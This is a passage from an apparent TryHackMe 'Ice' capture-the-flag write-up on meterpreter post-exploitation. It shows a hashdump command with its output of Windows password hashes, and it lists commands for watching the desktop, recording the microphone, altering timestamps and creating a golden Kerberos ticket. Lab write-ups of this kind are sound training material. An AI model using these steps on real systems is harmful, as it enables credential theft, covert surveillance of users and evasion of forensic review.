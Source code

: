 ### Post Exploitation  
- Using the `hashdump` we can dump the password hashes.  

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
```
- Using `screenshare`, we can watch the remote user desktop.
- Using `record_mic`, we can record from the microphone.  
- Using `timestomp`, we can alter the modify the timestamps.  
- Using `golden_ticket_create`, we can create a golden kerberos ticket.  

Image Credits: [TryHackMe and the room creator](https://tryhackme.com/room/ice).
